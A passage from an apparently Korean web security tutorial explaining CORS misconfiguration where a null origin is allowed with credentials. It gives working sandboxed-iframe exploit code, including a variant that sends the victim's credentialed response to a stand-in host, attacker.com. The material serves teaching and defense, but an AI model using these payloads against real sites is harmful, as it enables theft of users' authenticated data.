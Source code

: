 ### 2. NULL ACAO, True ACAC
ACAO 헤더에 null이 허용되고, ACAC 헤더가 True로 설정되어있는 경우
```
HTTP/1.1 200 OK
...생략...
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: True
...생략...
```
이전과 다른 점은 ACAO가 null 이라는 점 뿐이다. 그렇다면 우리는 취약한 웹 애플리케이션으로 null 출처를 가진 Cross-Origin 요청을 보낼 수 있어야한다.
몇가지 있지만 Sandbox 처리된 iframe을 통해서 가능하다. 아래와 같은 익스플로잇을 작성한 한다.
```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,
<script>
        function cors() {
                var xhr = new XMLHttpRequest();
                xhr.onreadystatechange = function() {
                        if (this.readyState == 4 && this.status == 200) {
                                document.getElementById('demo').innerText = this.responseText;
                        }
                };
                xhr.open('get','https://vulnerable.com/path_to_get_data',true); //취약한 웹의 진입점으로 변경
                xhr.withCredentials = true;
                xhr.send();             
        };
</script>
<center>
<h2>CORS Exploit</h2>
<button type='button' onclick='cors()'>Exploit</button>
<hr>
<h3>Response</h3>
</center>
<div id='demo'>
</div>" width="100%" height="50%" style="background-color:#e1caca;">
</iframe>
```
Exploit 버튼을 클릭하면 iframe 내부에 취약한 웹 애플리케이션에서 가져온 응답 메세지가 표시되게 된다. 악의저깅ㄴ 공격자가 실제 공격에 사용될 때는 아래와 같이 공격자의 웹으로 응답메시지를 전송하는 코드를 사용할 수 있다
```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,
   <script>
      var xhr = new XMLHttpRequest();
      xhr.onload = reqListener;
      xhr.open('get','https://vulnerable.com/path_to_get_data',true); //취약한 웹의 진입점으로 변경
      xhr.withCredentials = true;
      xhr.send();
      function reqListener() {
         location='https://attacker.com/getdata?restxt='+encodeURIComponent(this.responseText);
      };
   </script>">
</iframe>
``` 
